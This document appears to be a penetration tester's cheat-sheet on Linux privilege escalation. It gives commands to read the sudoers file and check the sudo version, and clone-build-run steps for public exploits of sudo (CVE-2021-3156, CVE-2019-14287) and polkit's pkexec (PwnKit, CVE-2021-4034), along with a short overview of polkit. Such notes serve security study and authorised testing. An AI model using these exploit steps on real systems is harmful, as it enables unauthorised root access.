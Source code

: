 ## Sudo
### sudoers file
```shell
sudo cat /etc/sudoers | grep -v "#" | sed -r '/^\s*$/d'
```
### Get Sudo Version
```shell
sudo -V | head -n1
```
### CVE-2021-3156
**Sudo verisons**
Ubuntu 20.04 - 1.8.31
Debian 10 - 1.8.28
Fedora 33 - 1.9.2 
#### Run
```shell
git clone https://github.com/blasty/CVE-2021-3156.git
cd CVE-2021-3156
make
```
Get Which version you need
```shell
cat /etc/lsb-release
```
```shell
./sudo-hax-me-a-sandwich <id>
```
### CVE-2019-14287
https://www.sudo.ws/security/advisories/minus_1_uid/
Minus uid bug
```shell
sudo -u#-1 <binary>
```
## Polkit
* An authorisation service on Linux based operating systems that allow user software and system components to communicate with each other. 
* Checks whether the user software is authorised for the asked instruction.
* It is possible to set how permissions are granted by default for each user and application. 

Works with 2 groups of files:
1. actions/policies `/usr/share/polkit-1/actions`
2. rules `/usr/share/polkit-1/rules.d`

* Polkit has `local authoirty` which can be used to set or remove additional permissions for users and groups.
* Custom rules can go in `/etc/polkit-1/localauthroity/50-local.d`

Polkit comes with three additional prgorams
1. `pkexec` - Runs a program with the rights of another user or with root rights
2. `pkaction` - can be used to display actions
3. `pkcheck` - Can be used to check if a process if authorised for a specific action. 

### CVE-2021-4034
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-4034
* Also known as [Pwnkit](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034)
* Memory corruption vulnerability
```shell
git clone https://github.com/arthepsy/CVE-2021-4034.git
cd CVE-2021-4034
gcc cve-2021-4034-poc.c -o poc
```